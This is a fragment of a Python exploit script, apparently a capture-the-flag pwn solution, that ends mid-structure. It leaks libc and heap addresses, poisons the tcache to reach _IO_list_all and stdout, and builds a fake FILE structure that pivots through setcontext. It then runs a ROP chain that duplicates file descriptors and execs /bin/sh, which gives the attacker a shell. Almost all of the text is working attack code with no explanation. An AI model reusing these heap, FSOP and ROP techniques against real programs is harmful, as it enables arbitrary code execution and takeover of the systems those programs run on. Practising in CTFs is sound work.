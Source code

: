 ```python
print hex(libc)

view(6)
ru("A"*8)
heap=u64(r(8))-0x1200
print hex(heap)
edit(6, "/bin/sh\0")
add(-1, "A"*8) #7
add(0x101, "A"*8)
add(0x101, "A"*8)
free(10)
free(9)

stdout=libc+0x2045c0
io_list_all=libc+0x2044c0
target=(io_list_all)^(heap+0x1060)>>12
target1=(stdout)^(heap+0x1080)>>12

p="A"*0x10+p64(0)+p64(0x21)+p64(target)
p+=p64(0)+p64(0)+p64(0x111)+p64(target1)

fake_io_addr=heap+0xd20

edit(7, p)
add(0x101, p64(fake_io_addr))

system=libc+0x58750
environ=libc+0x20ad58
_IO_wfile_jumps=libc+0x202228
setcontext=libc+0x4a99d

rop_addr=heap+0x850
rax=libc+0xdd237
rdi=libc+0x158748
rsi=libc+0x02b46b
syscall=libc+0x127185+4
rsp=libc+0x5ef6f
rdx=libc+0x162e3a

rop=p64(rax)+p64(0x21)
rop+=p64(rdi)+p64(4)+p64(0)*5
rop+=p64(rsi)+p64(0)*2
rop+=p64(syscall)

rop+=p64(rax)+p64(0x21)
rop+=p64(rdi)+p64(4)+p64(0)*5
rop+=p64(rsi)+p64(1)*2
rop+=p64(syscall)

rop+=p64(rax)+p64(0x3b)
rop+=p64(rdi)+p64(heap+0xd20)+p64(0)*5
rop+=p64(rsi)+p64(0)+p64(heap+0x978+0x28)
rop+=p64(rdx)+p64(0)*3+p64(heap+0x978+0x28)
rop+=p64(syscall)

edit(5, rop)

fake_io = flat({
    0x0: " sh;",
    0x10: p64(setcontext),
    0x20: p64(stdout),
    0x88: p64(rop_addr),  # _lock
    0xa0: p64(stdout),
```